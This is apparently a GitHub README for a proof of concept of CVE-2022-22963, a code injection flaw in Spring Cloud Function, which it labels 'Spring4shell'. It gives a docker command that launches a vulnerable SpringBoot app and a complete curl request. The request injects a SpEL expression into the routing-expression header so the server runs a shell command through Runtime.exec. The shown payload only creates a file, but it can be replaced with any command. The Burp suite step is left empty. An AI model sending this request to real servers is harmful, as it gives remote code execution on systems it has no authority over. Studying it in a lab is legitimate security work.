

# CVE-2022-22963 - Spring4shell
To run the vulnerable SpringBoot application run this docker container exposing it to port 8080.
Example:

	docker run -it -d -p 8080:8080 bobcheat/springboot-public

## Exploit
Curl command:

	curl -i -s -k -X $'POST' -H $'Host: 192.168.1.2:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary $'exploit_poc' $'http://192.168.1.2:8080/functionRouter'

Or using Burp suite:

## Credits
https://github.com/hktalent/spring-spel-0day-poc

